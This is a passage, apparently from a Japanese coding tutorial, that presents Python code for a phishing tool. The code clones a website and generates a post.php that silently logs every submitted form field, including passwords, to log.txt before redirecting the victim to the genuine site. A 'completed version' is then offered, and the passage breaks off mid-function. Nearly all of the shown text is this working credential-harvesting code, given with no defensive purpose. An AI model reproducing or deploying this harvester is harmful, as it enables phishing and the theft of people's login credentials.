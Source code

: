 ```
###############################
#phpスクリプトを自動で作成する#
###############################
def makephp(RAW_URL):
        logpath = "/clone/"
        filewrite = file("%s/post.php" % (logpath), "w")
        filewrite.write("""<?php $file = 'log.txt';file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=%s" />""" % (RAW_URL))
        filewrite.close()
        filewrite = file("%s/log.txt" % (logpath), "w")
        filewrite.write("")
        filewrite.close()
        if sys.platform == "darwin":
            subprocess.Popen("chown _www:_www '%s/log.txt'" % (logpath), shell=True).wait()
        else:
            subprocess.Popen("chown www-data:www-data '%s/log.txt'" % (logpath), shell=True).wait()
##################################################################################################
##################################################################################################
```

　次のプログラムは完成版になります。

```
##############
####完成版####
##############

from lxml import html
import subprocess
import os,sys,time,re,shutil,urllib2

###setting###
html_parser = html.HTMLParser(encoding="utf-8")
#############

def setdirectory():
    if check_os() == "posix":
        return os.path.join(os.path.expanduser('~'), '/clone')
    if check_os() == "windows":
        return "src/program_junk/"

def check_os():
    if os.name == "nt":
        operating_system = "windows"
    if os.name == "posix":
        operating_system = "posix"
    return operating_system

def makephp(RAW_URL):
        logpath = "/clone/"
        filewrite = file("%s/post.php" % (logpath), "w")
        filewrite.write("""<?php $file = 'log.txt';file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=%s" />""" % (RAW_URL))
        filewrite.close()
        filewrite = file("%s/log.txt" % (logpath), "w")
        filewrite.write("")
        filewrite.close()
        if sys.platform == "darwin":
            subprocess.Popen("chown _www:_www '%s/log.txt'" % (logpath), shell=True).wait()
        else:
            subprocess.Popen("chown www-data:www-data '%s/log.txt'" % (logpath), shell=True).wait()

def relaive(clonesite,base):
    fullpath = "/clone/index.html"
```